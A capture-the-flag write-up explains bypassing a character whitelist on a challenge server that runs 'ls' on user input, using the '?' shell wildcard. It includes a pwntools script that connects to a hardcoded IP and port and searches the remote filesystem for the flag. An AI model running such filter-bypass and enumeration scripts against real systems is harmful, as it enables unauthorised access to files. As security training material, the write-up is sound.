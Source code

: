 Using the script above, we get the allowed characters are `0cnCN./?`. So, after that, i test some characters and while testing `.` character, i came to realization that the server was executing `ls` command.

### ![chall-sc](https://hackmd.io/_uploads/rk0ay-LCT.png)

When i input `0cn` to the server, the server tells us what to do. We have to look for another folder named `0cn` in the filesystem with the restriction that we can only use a few characters.

Fortunately, one of the allowed characters are `?`. On unix shells such as bash, `?` character is used for wildcard that matches a single character. So, we will replace all illegal characters with `?` character. Finally, we can use DFS or BFS to search the directory.

#### POC

```python
#!/usr/bin/env python3

from pwn import *


def replace_blacklisted(s):
    res = b""
    for b in s:
        if b not in whitelist:
            res += b"?"
        else:
            res += bytes([b])
    return res


whitelist = b"0cnCN./?"


paths = [b"."]

context.log_level = "WARN"
prog = log.progress("Current path", level=logging.WARN)
for path in paths:
    prog.status(path.decode())
    io = remote("52.59.124.14", 5002)
    io.sendline(replace_blacklisted(path))
    resp = io.recvall()
    if b"ENO" not in resp:
        if b"Cannot access" not in resp:
            for p in resp.split(b"\n"):
                if p != b"":
                    paths.append(path + b"/" + p)
    else:
        log.warn(f"Flag: {resp.decode()}")
        prog.success(path.decode())
        break

```
